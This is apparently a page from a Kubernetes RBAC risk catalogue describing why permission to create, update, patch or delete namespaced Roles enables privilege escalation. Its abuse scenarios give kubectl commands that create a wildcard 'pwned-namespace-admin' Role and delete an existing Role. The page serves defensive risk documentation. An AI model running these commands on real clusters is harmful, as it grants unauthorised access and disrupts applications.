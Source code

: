 ```yaml
---
id: 1029
title: "Manage Roles in a namespace (create, update, patch, delete)"
description: "Grants permission to create, modify, or delete Roles within a specific namespace. This allows an attacker to define or alter namespaced permissions, potentially granting themselves elevated access to resources within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                            |
| ----------------------- | ---------------------------------------------------------------- |
| ID                      | 1029                                                             |
| Name                    | Manage Roles in a namespace (create, update, patch, delete)      |
| Risk Category           | Elevation of Privilege                                           |
| Risk Level              | {{< risk High >}}                                                |
| Role Type               | Role                                                             |
| API Groups              | rbac.authorization.k8s.io                                        |
| Resources               | roles                                                            |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                         |
| Tags                    | {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Grants permission to create, modify, or delete Roles within a specific namespace. This allows an attacker to define or alter namespaced permissions, potentially granting themselves elevated access to resources within that namespace.

## Abuse Scenarios

1. Create a new Role with full permissions within the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: pwned-namespace-admin
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Delete an existing Role, potentially disrupting application permissions.

```bash
kubectl delete role <role-name> -n <namespace>
# Example: kubectl delete role pod-reader -n default

```
